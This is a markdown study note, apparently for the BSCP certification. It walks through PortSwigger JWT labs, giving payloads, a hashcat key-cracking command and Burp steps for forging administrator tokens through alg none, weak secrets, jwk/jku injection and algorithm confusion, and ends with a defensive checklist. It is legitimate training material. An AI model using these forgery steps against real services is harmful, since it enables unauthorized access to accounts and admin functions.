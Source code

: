# JWT :   JSON web tokens

#### Quick JWT primer (very short)
- A JSON Web Token (JWT) is three base64url-encoded parts joined by dots:
```css
HEADER.PAYLOAD.SIGNATURE
```
- Header: algorithm (alg) and optional parameters (kid, jwk, jku, etc.).
- Payload: claims (sub, iss, exp, etc.).
- Signature: depends on alg:
	- HMAC (symmetric): e.g. HS256 — signature = HMAC(secret, header.payload)
	- RSA/ECDSA (asymmetric): e.g. RS256 — signature = Sign(private_key, header.payload) and verification uses the public key

 Symmetric Key  : HS256
 ASymmetric key : RSA

### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### Lab: JWT authentication bypass via flawed signature  (alg: none or kid confusion)

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```

### Lab: JWT authentication bypass via weak signing key

Payload
```
step 1 : Brute-force the secret key

	hashcat -a 0 -m 16500 complete_jwt_tokens ./jwt.secrets.list  : secret1
	Encode in base64 secret1 : c2VjcmV0MQ==

step 2: Generate a forged signing key

	 - JWT Editor Keys tab and click New Symmetric Key : Generate
	 - Replace the generated value for the k property with the Base64-encoded secret.

step 3 - Modify and sign the JWT
		
	 - {"iss":"portswigger","exp":1760963935,"sub":"wiener"}
	 - {"iss":"portswigger","exp":1760963935,"sub":"administrator"}

	 - Sign, then select the key that you generated .



```

## JWT header parameter injections jwk, jku, kid

- According to the JWS specification, only the alg header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.

		-	jwk (JSON Web Key) - Provides an embedded JSON object representing the key.
		-	jku (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.
		-	kid (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.

### Lab: JWT authentication bypass via jwk header injection

Payload
```
- JWT Editor Keys tab.
- Generate a new RSA key .
- JSON Web Token tab and modify the token's payload however you like.
- Click Attack, then select Embedded JWK.
- you may also need to update the JWT's kid header parameter to match the kid of the embedded key

```

### Lab: JWT authentication bypass via jku header injection

Payload
```
step 1: Generate a RSA signing key
	- JWT Editor Keys tab.
	- Generate a new RSA key 
	- Paste the RSA key on exploit server in below section :
		{
    	"keys": [
    		// Generate a new RSA key 
    		]
		}

- step 2 - Modify and sign the JWT
	- Match the both kid values (new values)
	- Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
	- sub  : administrartor 
	- Sign with RSA key
```

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/jwt-jku.jpg)


<hr>


###

### Lab: JWT authentication bypass via algorithm confusion


Payload
```
step 1 — Obtain the server public key
	- Open /jwks.json in the browser and copy the single JWK object from the keys array (copy only the object).

step 2 — Create a malicious symmetric key in Burp

	- In Burp → JWT Editor → Keys: New RSA Key → choose JWK and paste the copied JWK; save.
	- Right-click the new key → Copy Public Key as PEM.
	- Base64-encode that PEM (use Decoder tab) and copy the Base64 string.
	- In JWT Editor → Keys: New Symmetric Key → Generate, then replace the k value with the Base64-encoded PEM; save.

Step 3 — Modify and sign the token

	- Open the GET /admin request in Repeater, switch to the JWT Editor tab.
	- Change JWT header alg → HS256.
	- Change payload claim sub → administrator.
	- Click Sign, pick the symmetric key you created, ensure Don't modify header is selected, and sign.
	- Send the request — you should now access the admin panel.

```


### Lab: JWT authentication bypass via algorithm confusion with no exposed key

Payload
```
Step1:  Collect two valid JWTs
	- Log in, capture the session JWT (/my-account → store cookie).
	- Log out, log in again, capture a second JWT.

Step2: Brute-force candidate public keys
	- Run docker run --rm -it portswigger/sig2n <token1> <token2>.
	- The tool outputs candidate n values, Base64 X.509/PKCS1 public keys and tampered JWTs.

Step3: Find the server’s actual public key
	- For each tampered JWT (X.509 entry) replace your session cookie in Burp and request /my-account.
	- A 200 means you found the correct X.509 key; a 302 redirect to /login means it’s wrong.

Step4: Create a symmetric key in Burp
	- In JWT Editor → Keys → New Symmetric Key → Generate JWK.
	- Replace the k value with the Base64 X.509 key you identified (use the key itself, not the tampered JWT). Save.

Step5: Forge and sign an admin token
	- In Repeater open the JWT (JWT Editor tab). Set header alg: HS256.
	- Change payload claim sub to administrator.
	- Sign with the symmetric key you created (ensure “Don't modify header” is selected). This uses the server’s public key as the HMAC secret.

```



### Quick defensive checklist (implement these)

- Always verify signatures and require verification before trusting claims.
- Whitelist algorithms — do not accept the algorithm from an untrusted client header.
- Separate keys by type — keep asymmetric public keys separate from symmetric secrets; never reuse them interchangeably.
- Validate kid/jku/jwk sources — only accept server-controlled keys or keys fetched from allowlisted, trusted JWKS endpoints.
- Use strong secrets for HMAC and enforce minimum entropy.
- Use proven libraries and high-level verify APIs; prefer libraries that let you set algorithms=['RS256'].
- Rotate keys and have a revocation/rotation strategy.
- Audit access to the JWKS endpoint and token generation endpoints.